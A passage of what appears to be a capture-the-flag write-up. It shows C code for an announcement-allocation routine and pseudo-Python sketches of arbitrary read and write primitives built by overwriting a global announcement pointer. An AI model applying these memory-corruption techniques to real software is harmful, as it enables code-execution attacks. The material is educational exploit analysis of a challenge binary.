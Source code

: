 ```c

    if (len <= 0 || len > 1024) {
        printf("ERR: Invalid Length\n");
        return;
    }

    if (global.announcement_length < len) {

        // Use new buffer
        remove_announcement ();
        global.announcement = malloc (len);

        //printf("Malloced %p\n", global.announcement);
        if (global.announcement == NULL) {
            printf("ERR: Failed to allocate announcement\n");
            return;
        }
        global.announcement_length = len;
    }

    // Re-use available buffer
    if (fgets (global.announcement, len, stdin) == NULL) {
        printf("Failed to read announcement\n");
        exit(-69);
    }
    global.announcement[strcspn(global.announcement, "\n")] = 0;

}
```

Since both `char s1_name[STATE_SIZE_LEN];` and `char s2_name[STATE_SIZE_LEN];` varibales separates us from reaching the announcement pointer, we need to find something pretty bigger than `9` to reach it. Good enough we can use global variable `const int N = 1024;` to do the trick. Did our math and found two possible assignments for L1 and L2 : `258` , `N;k`. With this in mind we developed the idea of the two basic primitives as follows:

```python
def read_at(address):
	amount = address
	initialize_citizens(amount) # using void init_states(int k) -- option 1 in void menu()
	propagate_forward(amount) # pushing our address value in the first 4 bytes of char s1_name
	initialize_citizens(0) # sets the arrays to 0, address is now only in char s1_name
	for(i in xrange(256)):
		propagate_fw(amount) # our address is moving forward reaching char* announcement
	leak = extract_leak(print_states()) # void print_states() actually prints *announcement
	return leak

def write_at(what,where):
	amount = where
	initialize_citizens(amount) 
	propagate_forward(amount)
	initialize_citizens(0)
	for(i in xrange(256)):
		propagate_fw(amount)
	create_announcement(what) # using void create_announcement() to write at *announcement
```

